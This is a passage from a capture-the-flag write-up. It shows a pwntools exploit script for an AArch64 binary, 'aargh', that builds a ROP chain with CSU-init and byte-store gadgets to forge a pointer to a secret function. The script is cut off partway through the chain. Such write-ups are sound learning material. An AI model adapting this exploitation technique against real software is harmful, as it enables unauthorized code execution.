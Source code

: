 I was pretty proud of my solving script and this was the intended way to solve this challenge:
```py
from pwn import *

r = remote("aargh.heroctf.fr", 1337)
#r = process("./aargh")

"""
========== Exploitation idea ==========
- construct a pointer to secret in data section
    - w0 control: call "vuln" and enter the number of bytes wanted to stdin
    - x19 control with "ldr x19, [sp, #16]"
    - strb w0, [x19, #0x40]

- store data address in x21, set x19 to 0 (csu_init_ldp)
- store parameters in x22, x23 and x24
- call secret (csu_init_ldr)

"""

csu_init_ldp = p64(0x4007c8) # ldp x19, x20, [sp, #16] ; ldp x21, x22, [sp, #32] ; ldp x23, x24, [sp, #48] ; ldp x29, x30, [sp], #64 ; ret
csu_init_ldr = p64(0x4007a8) # ldr x3, [x21, x19, lsl #3] ; mov x2, x24 ; add x19, x19, #0x1 ; mov x1, x23 ; mov w0, w22 ; blr x3
strb_w0_x19  = p64(0x400650) # strb w0, [x19, #0x40] ; ldr x19, [sp, #0x10] ; ldp x29, x30, [sp], #0x20 ; ret
ldr_x19_sp16 = p64(0x400654) #                         ldr x19, [sp, #0x10] ; ldp x29, x30, [sp], #0x20 ; ret
ldp_x29_x39  = p64(0x400658) #                                                ldp x29, x30, [sp], #0x20 ; ret
vuln_func    = p64(0x4006fc + 8) # vuln(), skipping stack frame preservation

data_addr    = 0x411030
# secret() addr: 0x400664 --> 0x64, 0x06, 0x40
PADDING_8 = b"BBBBBBBB"

rop = b"A" * 264

# Payload to construct a pointer in data section
## Store 1st byte
rop += vuln_func
rop += PADDING_8

rop += ldr_x19_sp16
rop += b"B" * 256
rop += PADDING_8                  # x29
rop += strb_w0_x19                # x30
rop += p64(data_addr - 0x40)      # x19
rop += PADDING_8 * 2

## Store 2nd byte
rop += vuln_func
rop += PADDING_8 * 3

rop += ldr_x19_sp16
rop += b"B" * 256
rop += PADDING_8                  # x29
rop += strb_w0_x19                # x30
rop += p64(data_addr - 0x40 + 1)  # x19
rop += PADDING_8 * 2

## Store 3rd byte
rop += vuln_func
rop += PADDING_8 * 3
```